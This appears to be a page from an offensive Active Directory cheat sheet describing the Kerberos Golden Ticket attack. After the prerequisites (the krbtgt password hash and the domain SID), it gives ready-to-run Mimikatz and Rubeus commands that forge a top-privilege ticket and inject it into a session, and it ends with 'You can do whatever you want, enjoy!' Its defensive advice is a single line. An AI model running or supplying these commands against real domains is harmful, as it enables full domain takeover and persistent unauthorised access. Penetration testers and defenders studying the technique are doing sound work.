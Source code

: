 # Golden Tickets
---

## Vulnerability

Kerberos authentication protocol involves an Active Directory Key Distribution Service which uses a service account named `krbtgt`. If you manage to retrieve the password hash of this service account, you would be able to create Keberos TGT with highest privileges possible on the targeted domain with Path the Hash method.

{: .important }
> Since `krbtgt` password is by default configured to **never change**.

## Prerequisites

* Having the password hash of `krbtgt` domain user.
* Having the targeted domain SID.

## Exploit

```bash
# With Mimikatz, purge tickets in your current session.
kerberos::purge

# Forge the golden ticket for your user.
kerberos::golden /user:$username /domain:$domain /sid:$domain_sid /krbtgt:$hash /ptt

# You can also use Rubeus to generate the golden ticket and import it in a dummy session.
.\Rubeus.exe golden /aes256:$hash /user:$username /domain:$domain /sid:$sid /nowrap
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$domain /username:$username /password:$whatever /ticket:$Base64EncodedTicket
```

Your user is now in the most privileged group in the Active Directory, including Domain Admins. You can do whatever you want, enjoy!

{: .warning }
> If you want to connect remotely to a machine, **use the hostname, not the IP.** Golden Tickets attack consists in leveraging Kerberos authentication by performing [Overpass The Hash](/ad/overpassthehash/). If you specify the IP of the target, you’ll force NTLM authentication, which will fail.

## Recommendations

- [ ] Nothing to do here, simply don't disclose `krbtgt` hash.